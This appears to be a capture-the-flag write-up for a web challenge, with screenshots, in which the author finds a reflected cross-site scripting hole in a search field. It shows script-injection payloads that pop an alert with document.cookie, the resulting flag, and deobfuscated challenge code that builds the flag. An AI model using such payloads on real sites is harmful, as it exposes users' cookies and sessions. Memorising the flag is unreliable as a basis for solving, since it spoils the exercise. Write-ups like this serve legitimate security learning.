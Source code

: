 ## we have search functionality with cookie `try+to+execute+some+js+`
![Screenshot 2023-08-11 at 01-09-41 Javascript](https://github.com/kiro6/writeups-ctfs/assets/57776872/8eaa29e0-40ea-4dbf-a31c-a7bb7853bdba)

## i tried this payload , as we can see the ` </script>` which i entered is parsed as a part of the code
```js
<script>alert(1)</script>
```
![Screenshot_20230811_010557](https://github.com/kiro6/writeups-ctfs/assets/57776872/fe55a717-fc98-4e3b-ae6e-13f4117b6c60)


## so i used this 
```js
<script>alert(1)</script><script>alert(document.cookie)</script>
```
![Screenshot_20230811_010607](https://github.com/kiro6/writeups-ctfs/assets/57776872/1f5f32ec-7b42-45d9-8893-9dd2defecd2b)

## there is the flag
```
coolcookie112
```

## another solution there was obfuscated js code  , i deobfuscate it using [this site](http://deobfuscatejavascript.com/) , there was the part where the flag is constructed
```js

            var f = '';
            f += ([]["fill"] + "")[3];
            f += (true + []["fill"])[10];
            f += (true + []["fill"])[10];
            f += (false + "")[2];
            f += ([]["fill"] + "")[3];
            f += (true + []["fill"])[10];
            f += (true + []["fill"])[10];
            f += (+(20))["to" + String["name"]](21);
            f += ([false] + undefined)[10];
            f += (true + "")[3];
            f += "112";
            eraseCookie('flag');
            createCookie('flag', f, 1);
            legacyAlert(p)
      
```
![Screenshot_20230811_011416](https://github.com/kiro6/writeups-ctfs/assets/57776872/9c7da9e1-b794-4d71-ab91-12bd37884d98)
